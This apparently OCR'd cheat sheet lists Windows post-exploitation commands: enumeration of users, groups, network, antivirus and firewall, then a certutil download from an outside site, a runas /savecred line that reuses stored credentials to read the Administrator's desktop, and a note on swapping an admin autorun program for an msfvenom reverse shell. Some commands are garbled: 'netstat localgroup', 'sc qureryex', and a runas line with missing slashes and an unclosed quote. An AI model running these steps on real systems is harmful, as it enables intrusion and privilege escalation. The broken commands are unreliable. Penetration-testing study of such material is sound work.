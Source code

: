 ```powershell
#To get the groups for the user
whoami /groups
#To list all users on the machine
net user
#To get info about s single user
net user <USER>
#To list all members of a group
netstat localgroup <GROUP>
```
## Network enumeration
```powershell
#To network stats  
ipconfig /all  
arp -a  
netstat -ano
```
## AV enumeration
```powershell
#To see the status of the windows defender  
sc query windefend  
#To list all the services running on the box  
sc qureryex type = service  
#To see the stat of the firewall   
netsh firewall show state  
netsh advfirewall dump   
#Config of firewall  
netsh firewall show config 
```
## Download files using CMD
```powershell
certutil -urlcache -f http://<site> <FILE> <location to save to on remote mahine>

#For Powershell you can use curl :)
```

## Windows linux subsystem
```powershell
#Searching for necessary executables
where /R C:\windows bash.exe  
where /R C:\windows wsl.exe
```

## Alternative data streams
```powershell
dir /R  
more < <data stream> #To see the content
```
## Run As
```powershell
cmdkey /list  
C:\Windows\System32\runas.exe user:ACCESS\Administator savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop
```
## Auto Run
```powershell
#Some programms are running automatically on boot so we want to see if a program is auto runnning as admin to replace thar programme with one customized   
#using msfvenom to get a reverse shell
wmic startup get caption,command 2>nul
```